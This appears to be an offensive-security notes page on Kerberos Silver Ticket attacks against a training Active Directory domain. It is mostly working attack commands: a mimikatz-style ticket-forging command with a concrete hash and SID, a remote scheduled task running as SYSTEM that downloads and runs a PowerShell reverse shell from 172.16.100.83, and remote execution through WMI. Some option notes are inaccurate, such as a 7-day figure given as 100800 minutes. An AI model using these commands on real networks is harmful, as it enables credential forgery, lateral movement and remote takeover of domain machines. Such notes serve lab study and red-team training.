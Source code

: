 # Silver Ticket

Silver ticket is signed and encrypted by the hash of **service** account which makes it a valid **TGS** ticket.

## Create The Ticket

```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden 
/User:Administrator /domain:dollarcorp.moneycorp.local
/sid:S-1-5-21-719815819-3726368948-3917688648 
/target:dcorp-dc.dollarcorp.moneycorp.local
/service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 
/startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/target:</td><td>Target server FQDN</td></tr><tr><td>/service:</td><td>The SPN name of service for which TGS is to be created</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt</td><td>ptt: inject ticket to current process</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes. <br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes.  (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>

## Abusing Services

### HOST

HOST Service permission allows to create scheduled tasks in remote computers\
The Silver ticket needs to be created with the NT Hash of the target machine

```bash
# Check you have permissions 
schtasks /S dcorp-dc.dollarcorp.moneycorp.local

#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Job" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.83/powercat.ps1''')'"

#Run created schtask now
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "Job"
```

### HOST + RPCSS

With these tickets you can **execute WMI in the victim system**:

<pre class="language-bash"><code class="lang-bash">#Check you have permissions 
<strong>Invoke-WmiMethod -class win32_operatingsystem -ComputerName dcorp-dc
</strong>
# Execute code
Invoke-WmiMethod win32_process -ComputerName $Computer -name create -argumentlist "$Program"
</code></pre>
